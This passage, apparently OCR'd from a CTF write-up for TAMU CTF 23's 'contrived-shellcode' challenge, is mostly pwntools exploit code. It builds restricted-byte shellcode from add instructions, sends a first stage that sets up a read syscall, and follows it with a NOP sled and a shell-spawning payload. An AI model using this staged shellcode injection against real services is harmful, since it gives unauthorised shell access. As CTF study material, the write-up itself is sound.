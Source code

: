 ```python  
   rax_zero = asm('add eax,0x0f0f0f')*11  
   rax_zero += asm('add eax,0xb0f0f')  
   rax_zero += asm('add eax, 0x0f0f')*6  
   rax_zero += asm('add eax, 0x90f')  
   rax_zero += asm('add eax, 0x30f')  
   rax_zero += asm('add al, 0x0f')*6  
   rax_zero += asm('add al, 0x8')  
   rax_zero += asm('add dword ptr [rip], eax')  
   rax_zero += b'\x00'*3  
log.info('> (sub rax, rax) shellcode : (%i bytes)' % len(rax_zero))  
   return rax_zero

log.info('Building Stage1 Shellcode.')  
stage1 =  pop_rsi()  
stage1 += zero_edi()  
stage1 += big_edx()  
stage1 += zero_rax()  
stage1 += asm('syscall')

log.info('Throwing Stage 1 Shellcode (%i bytes)' % len(stage1))  
p.sendline(stage1)  
pause()

stage2 = asm(shellcraft.nop())*(len(stage1)+0x8*5)  
stage2 += asm(shellcraft.sh())  
log.info('Throwing Stage 2 Shellcode (%i bytes)' % len(stage2))  
p.sendline(stage2)

p.interactive()  
```

Original writeup (https://github.com/tj-oconnor/ctf-
writeups/tree/main/tamu_ctf_23/contrived-shellcode).